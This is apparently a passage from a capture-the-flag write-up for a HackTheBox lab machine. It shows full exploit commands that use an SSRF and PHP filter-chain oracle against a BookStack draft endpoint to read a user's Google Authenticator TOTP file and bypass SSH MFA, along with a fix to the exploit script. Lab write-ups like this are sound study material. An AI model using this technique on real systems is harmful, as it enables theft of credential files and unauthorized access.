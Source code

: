 ```bash
uv run filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/8/save-draft' --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --proxy http://localhost:8080 --headers '{"X-CSRF-TOKEN": "uttAXWOCXoUWEJsbI9owIs7N5wkWzVi93yzrorOO","Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6InFUNkdubkVMRGlKUHJiSUFJZjI1dEE9PSIsInZhbHVlIjoiRGppNG9vSXJVandscUxnd2gzTmRodVZkZHVRNTlpV1J5NkVMeldrVk9JQ1VZVE9mQkFvQ3h5dkEvd0FpdEhJeXdkWTBKN0pLUDJCbjd1bjljOVVhQVh4bXgvV3ljV1Y4U0xxT3l3ZDlxVWFyNDdXT2ZFSHkwR1p6M3hpbzZCVzMiLCJtYWMiOiIyZjY0ZjhmOGEwNjg3YjNmYmZmM2NkMjg0OTE4OGI4MjI4NGM2NTFhMjllODczN2NlNWM2MTA1MDdlNDIxOTMyIiwidGFnIjoiIn0%3D"}'

<SNIP>
  File "/home/h4z4rd0u5/.local/share/uv/python/cpython-3.9.22-linux-x86_64-gnu/lib/python3.9/base64.py", line 87, in b64decode
    return binascii.a2b_base64(s)
binascii.Error: Invalid base64-encoded string: number of data characters (1) cannot be 1 more than a multiple of 4
```

Looking at the request sent from the exploit, we can see that the `html` parameter is being sent as a pure `php filter chain`, but the `SSRF` is triggerd by the `img` tag, which is not being sent in the request.
![NON](file-20250530172633414.png)

We need to send the SSRF like the one shown on the post `<img src='data:image/png;base64,<BASE64SSRFENDPOINT>'/>`, for that, we need to fix the `requestor.py` file in the exploit, which is the one that makes the request, to include the appropriate tag in the request. We need to add the following line:

![NON](file-20250531043730079.png)

After that, the exploit starts to dump the requested file:

```bash
uv run filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/8/save-draft' --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --proxy http://localhost:8080 --headers '{"X-CSRF-TOKEN": "nKJHEfWLIkhw0kD2spl5VrQBvVDEUEqEpqjvSJN2","Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjUvMGZWNW1IRjMwNGh6QkJNWUlJMmc9PSIsInZhbHVlIjoiMDltZ0VJRG9FbEhpbzNVYXAxb3VrRVgxdmJsSVptcC80QlpqUWJudGxuNUZUTi9HcWwyaFVQUGFoMmVIWFNaQk00blBqMlR3ejU3SUhIclBEWS90b3JsM1lpa28vUlg0cngzaDB1QnViSnYwa0lOaUVQMFBoMXdCcWJzZlBtUFAiLCJtYWMiOiI1YWY5ZjBmMTgwZDk3MDA0ODM1ZjllMDg0NTViMDIyYzk2ZjVhNTc3NGVjOGNiZGZmZjEyNjkyYTIzYWQyNWMwIiwidGFnIjoiIn0%3D"}'
```

![NON](file-20250530172749013.png)

Based on the posts on the bookstack, we see a reference to a possible backup folder.

![NON](file-20250530160455320.png)

Based on the ssh MFA, we could try to see if there is a `otp` file like the one based on this post on how to setup `ssh` with `OTP` https://cr0hn.medium.com/enhancing-ssh-server-security-configuring-otp-for-ssh-access-a65c097bcc8a

We started off trying to dump the `/home/reader/.google_authenticator`, but it didn't returned anything, after that, we tried `/backup/home_backup/home/reader/.google_authenticator` and it did work, giving us a `TOTP` file.
